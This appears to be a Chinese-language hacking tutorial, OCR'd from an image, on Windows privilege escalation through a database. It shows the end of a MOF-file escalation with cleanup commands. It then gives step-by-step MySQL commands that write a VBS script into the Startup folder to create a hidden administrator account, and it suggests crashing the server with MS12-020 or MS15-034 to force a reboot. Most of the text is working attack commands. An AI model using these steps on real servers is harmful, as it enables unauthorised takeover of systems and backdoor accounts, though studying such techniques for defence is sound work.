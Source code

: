 
（2）结果如下：
      1，菜刀进入数据库执行命令
      2，目标服务器会每隔5min新建一个账号admin


Mof清除方法：
停止 winmgmt 服务：net stop winmgmt

删除 Repository 文件夹：rmdir /s /q C:\Windows\system32\wbem\Repository\

手动删除mof 文件：del C:\Windows\system32\wbem\mof\good\moon.mof /F /S

删除创建的用户：net user admin /delete

重新启动服务：net start winmgmt




# 数据库提权之启动项提权：
启动项就是电脑重启之后会自动加载运行的项。
查看启动项的方法：
1，win+R键或者电脑-运行，输入msconfig即可查看电脑开机自启动的项目

2，直接在我的电脑里面搜索“启动”这个文件夹，打开文件夹查看里面的相关文件
启动项提权的思路：

也就是利用数据库的最高账号（root）管理权限去执行命令写VBS脚本，然后导出到操作系统的启动项中。


具体操作：数据库命令行依次执行以下命令：
1、删除test1数据库（数据库名自定义）：
drop database test1;
2、创建一个test1数据库：
create database test1;
3、选择test1数据库：
use test1;
4、以CMD文本格式创建表a：
create table a (cmd text);
5、往表a中插入名为wscript.shell的文件：
insert into a values ("set wshshell=createobject (""wscript.shell"")");
6、往表a中插入值运行cmd命令，添加用户：
insert into a values ("a=wshshell.run (""cmd.exe /c net user best best /add"",0)");
7、往表a中插入值运行cmd命令，将用户加入到管理员组：
insert into a values ("b=wshshell.run (""cmd.exe /c net localgroup Administrators best /add"",0)");
8、查询表a中的值：（将前面的操作做一下检查）
select * from a;
9、将表a的值添加到Windows系统的启动项，命名为best.vbs：
select * from a into outfile "c://docume~1//administrator//「开始」菜单//程序//启动//best.vbs";


启动项提权的思路：
也就是利用数据库的最高账号（root）管理权限去执行命令写VBS脚本，然后导出到操作系统的启动项中。



最后就等待目标服务器重启，或者通过溢出漏洞让服务器重启，如：MS12-020、MS15-034
手动重启之后发现，新建了一个best用户，且best是管理员！
